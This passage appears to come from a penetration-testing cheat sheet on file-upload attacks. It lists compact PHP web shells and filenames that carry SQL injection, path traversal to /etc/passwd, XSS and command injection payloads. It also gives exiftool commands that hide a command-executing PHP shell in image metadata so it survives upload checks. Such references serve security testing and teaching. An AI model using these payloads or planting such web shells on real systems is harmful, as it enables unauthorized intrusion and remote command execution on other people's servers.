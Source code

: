 **Other Techniques**:

PHP web shells don't always have the `<?php` tag, here are some alternatives:

* Using a PHP script tag `<script language="php">`

    ```html
    <script language="php">system("id");</script>
    ```

* The `<?=` is shorthand syntax in PHP for outputting values. It is equivalent to using `<?php echo`.

    ```php
    <?=`$_GET[0]`?>
    ```

### Filename Vulnerabilities

Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

* Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
* LFI/Path Traversal Payloads:  e.g. `image.png../../../../../../../etc/passwd`
* XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
* File Traversal e.g. `../../../tmp/lol.png`
* Command Injection e.g. `; sleep 10;`

Also you upload:

* HTML/SVG files to trigger an XSS
* EICAR file to check the presence of an antivirus

### Picture Compression

Create valid pictures hosting PHP code. Upload the picture and use a **Local File Inclusion** to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

* Picture Metadata, hide the payload inside a comment tag in the metadata.
* Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.
    * [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    * [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    * [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php

### Picture Metadata

Create a custom picture and insert exif tag with `exiftool`. A list of multiple exif tags can be found at [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```
